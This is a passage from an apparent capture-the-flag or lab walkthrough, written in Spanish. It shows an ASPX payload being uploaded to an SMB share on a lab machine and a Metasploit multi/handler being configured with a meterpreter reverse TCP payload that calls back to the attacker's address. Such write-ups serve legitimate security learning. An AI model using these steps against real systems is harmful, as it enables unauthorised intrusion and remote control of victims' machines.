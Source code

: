 ```
smbclient \\\\10.10.37.67\\nt4wrksv
put payload.aspx
```

![](IMG/Pasted%20image%2020250305015334.png)

Y ahora, para hacer el listener en metasploit, lo ejecutamos:

```
msfconsole
```

![](IMG/Pasted%20image%2020250305015518.png)

y una vez dentro ejecutamos lo siguiente:

```
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set LHOST 10.8.16.0
set LPORT 4444
run
```

con esto, estaremos seleccionando el exploit que queremos usar, el payload que queremos enviar, la dirección IP con la que tiene que establecer conexión, es decir, con la de nuestra máquina atacante, y el puerto por el que debe hacer la conexión.
